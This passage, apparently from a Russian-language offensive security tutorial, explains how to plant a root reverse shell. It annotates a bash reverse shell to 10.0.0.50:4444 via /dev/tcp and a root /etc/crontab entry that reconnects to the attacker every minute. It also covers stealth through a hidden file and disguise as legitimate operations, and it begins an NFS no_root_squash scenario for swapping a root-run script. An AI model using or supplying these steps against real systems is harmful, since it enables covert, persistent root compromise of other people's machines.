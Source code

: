 **Пояснения:**
1. **Создание скрипта для reverse shell**:
   - `#!/bin/bash` - shebang для запуска как bash-скрипт
   - `bash -i` - интерактивная оболочка
   - `>& /dev/tcp/10.0.0.50/4444` - перенаправление ввода/вывода в TCP-соединение
   - `0>&1` - дублирование stdin в stdout
   - `tee` - запись в файл с отображением в консоли

2. **Установка прав на выполнение**:
   - `+x` - добавление флага исполнения (необходимо для запуска скрипта)

3. **Добавление в cron**:
   - `* * * * *` - выполнение каждую минуту
   - `root` - запуск от имени пользователя root
   - `tee -a` - добавление строки в конец файла (с сохранением содержимого)
   - `/etc/crontab` - системный файл расписания задач в Linux
   - **Результат**: каждую минуту будет устанавливаться reverse shell с правами root

---

### Ключевые технические особенности

1. **Механизм SUID в Linux**:
   - Когда файл с установленным SUID-битом запускается, процесс получает права владельца файла
   - В данном случае владелец - root, значит процесс запустится с root-правами

2. **Работа cron в Linux**:
   - Системный демон, выполняющий задачи по расписанию
   - Задачи в `/etc/crontab` выполняются с указанными пользовательскими правами
   - Добавление задачи от root гарантирует максимальные привилегии

3. **Сетевое взаимодействие**:
   - `/dev/tcp/` - виртуальное устройство в Linux для TCP-соединений
   - Ожидание подключения на стороне атакующего
   - При срабатывании cron - автоматическое подключение к атакующему

4. **Скрытность**:
   - Использование скрытых файлов (`.hidden_shell`)
   - Маскировка под легитимные операции с файлами
   - Эксплуатация стандартных системных механизмов (bash, cron)

---

## Примеры атак

### Пример 1: Подмена системного скрипта через NFS с `no_root_squash`

На сервере 192.168.1.100 с Linux (Ubuntu 22.04) используется NFS с экспортированной директорией `/scripts`. 
Эта директория содержит скрипты, которые выполняются по расписанию с правами root. 
В конфигурации `/etc/exports` допущена критическая ошибка: `/scripts *(rw,sync,no_root_squash,no_subtree_check)`
Атакующий (192.168.1.50) обнаружит эту уязвимость и подменит скрипт ежедневного резервного копирования, чтобы получить обратный шелл с правами root.

